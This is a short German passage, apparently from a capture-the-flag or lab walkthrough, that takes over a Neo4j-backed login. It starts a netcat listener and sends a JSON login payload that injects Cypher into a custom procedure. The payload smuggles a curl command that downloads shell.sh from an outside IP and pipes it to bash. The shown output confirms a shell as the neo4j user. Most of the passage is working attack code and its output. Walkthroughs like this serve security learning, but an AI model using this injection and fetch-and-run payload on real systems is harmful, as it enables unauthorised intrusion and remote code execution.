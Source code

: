 Listener starten:

```bash
nc -lvnp 9001
```

Dann bauen wir die Payload:

```json
{
  "username": "admin' RETURN h.value AS value UNION CALL custom.getUrlStatusCode('127.0.0.1;curl http://10.10.14.204:8000/shell.sh|bash;') YIELD statusCode AS value RETURN value;//",
  "password": "123"
}
```

Shell poppt – wir sind `neo4j`:

```
uid=997(neo4j) gid=995(neo4j)
```

![shell](Screenshot_2025-05-05_15_48_30-1.png)

---
